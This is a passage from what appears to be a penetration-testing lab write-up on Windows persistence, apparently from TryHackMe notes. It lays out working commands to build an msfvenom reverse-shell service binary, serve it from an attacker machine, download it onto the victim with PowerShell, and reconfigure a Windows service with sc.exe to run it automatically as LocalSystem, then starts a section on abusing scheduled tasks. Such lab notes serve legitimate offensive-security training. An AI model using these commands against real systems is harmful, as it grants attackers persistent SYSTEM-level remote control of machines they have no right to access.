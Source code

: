 There are three things we care about when using a service for persistence:

* The executable (**BINARY\_PATH\_NAME**) should point to our payload.
* The service START\_TYPE should be automatic so that the payload runs without user interaction.
* The **SERVICE\_START\_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom.

**Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=5558 -f exe-service -o rev-svc2.exe
```

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Kali**

```
nc -lvnp 5558
```

**Victim(cmd)**

```
cd C:\Windows
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$KALI:81/rev-svc2.exe','rev-svc2.exe')" 
```

**Victim(cmd)**

```
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"

sc.exe start THMservice3
```

<figure><img src="../../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

## Abusing Scheduled Tasks

### Task Scheduler

The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).
